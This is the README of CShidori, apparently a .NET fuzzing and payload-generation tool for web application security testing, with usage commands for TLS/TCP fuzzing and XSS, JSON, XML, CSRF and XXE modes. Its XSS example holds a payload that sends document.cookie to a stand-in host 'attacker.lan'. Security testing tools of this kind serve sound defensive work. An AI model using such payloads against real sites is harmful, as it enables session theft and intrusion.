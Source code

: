 # CShidori

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
![.DOTNET](https://github.com/Aif4thah/CShidori/actions/workflows/dotnet.yml/badge.svg?branch=main)
[![HitCount](https://hits.dwyl.com/Aif4thah/CShidori.svg?style=flat-square)](http://hits.dwyl.com/Aif4thah/CShidori)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (fr)](https://github.com/Aif4thah/SIMPLE)

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* OWASP Web Application Security Testing Guide: [C-Fuzz Vectors](https://owasp.org/www-project-web-security-testing-guide/v41/6-Appendix/C-Fuzz_Vectors#replacive-fuzzing)

## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning

* CShidori learns and tries to detect vulnerabilities from your fuzzing history
* ML is not miraculous thing, you have to train it for your Apps ;)

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

Put your request in a text file* then start fuzzing with: 

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

You can select data with the "-d" parameter

### TCP Sockets

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```

#### *how put my Web request in a file ? 
 
	* from ZAP or Burp: right click > copy to file
	* for Chrome: F12 > Network > your request / paylod > view source, copy-past in text file, with a line between request and payload, and "\n" + a new line at the end of the file


### Analyse logs

use the `Import-Csv` cmdlet or the `.\CShidoriLogsViewer.ps1` script. 
You can then parse the logs as powershell objects.

```powershell
. .\CShidoriLogsViewer.ps1
Get-CShidoriLogs .\127-0-0-1-b4e09da3-7e34-46f2-9ce9-6f8b1d3a3019.csv -ResponseMatch "bad" -ExcludeSize 295 -debug   
```

### Speed

1 thread = 70-100 req/s

### Go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
